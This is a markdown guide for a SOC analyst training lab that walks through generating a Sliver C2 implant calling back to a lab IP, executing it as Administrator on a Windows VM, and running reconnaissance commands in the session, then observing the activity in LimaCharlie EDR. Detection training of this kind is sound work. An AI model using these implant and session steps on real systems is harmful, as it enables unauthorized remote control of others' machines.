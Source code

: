 # Sliver Setup

This document outlines the process of preparing and using the **Sliver Command and Control (C2)** framework to simulate adversarial activity as part of the SOC Analyst 2.0 Lab.

## Overview
The lab uses Sliver to create and deploy payloads (C2 implants) that simulate real-world adversarial behavior. These implants establish Command and Control sessions with the Sliver server, enabling activities like privilege escalation, credential dumping, and system reconnaissance.

---

## Steps for Sliver Setup

### 1. Generate the C2 Implant
The Sliver C2 server is pre-installed for this lab. Follow these steps to generate and deploy your C2 implant:
1. Start the **Sliver Client** from the terminal.
2. Generate the C2 implant using the following command:
   
   generate --http 172.25.114.254 --save /mnt/c/Users/sywtbsa/Downloads/
   
   - `--http`: Specifies the communication protocol.
   - Replace `172.25.114.254` with the Sliver server's IP address.
   - The implant is saved in the Windows system's Downloads directory.

3. Verify the implant is stored on the Sliver server:
   
   implants
   
   - This command lists the available implants.

4. Ensure the HTTP listener is running:
   
   jobs
   
   - If the job isn’t running, start it by typing `http` in the Sliver client terminal.

---

### 2. Start a Command and Control (C2) Session
After generating the implant:
1. Launch an **Administrative Command Prompt** on the target Windows VM.
   - Ensure this is run with Administrator privileges.
2. Execute the implant:
   
   C:\Users\sywtbsa\Downloads\[your_C2-implant.exe]
   
   - Replace `[your_C2-implant.exe]` with the actual payload name.

3. Confirm the session has been established:
   
   sessions
   
   - This command lists active C2 sessions on the Sliver server.

4. Interact with the session:
   
   use [session_id]
   
   - Replace `[session_id]` with the active session’s ID.
   - Once active, you can run commands on the compromised system.

---

## Commands to Explore
1. **Basic Information**:
   - Get system and session details:
     
     info
     whoami
     pwd
     

2. **Network Reconnaissance**:
   - View active network connections:
     
     netstat
     

3. **Process Exploration**:
   - List running processes:
     
     ps -T
     
   - Sliver highlights its own implant in green and defensive tools in red.

---

## Observing EDR Telemetry
With the implant active, use LimaCharlie to observe telemetry data:
1. Log in to the [LimaCharlie web UI](https://app.limacharlie.io/).
2. Navigate to:
   - **Sensors**: View active sensors.
   - **Processes**: Explore the process tree, noting signed vs. unsigned processes.
   - **Network**: Examine network activity for the implant.
   - **File System**: Locate the implant in `C:\Users\sywtbsa\Downloads` and inspect its hash (e.g., with VirusTotal).
   - **Timeline**: Review event logs and telemetry related to the implant's creation and execution.
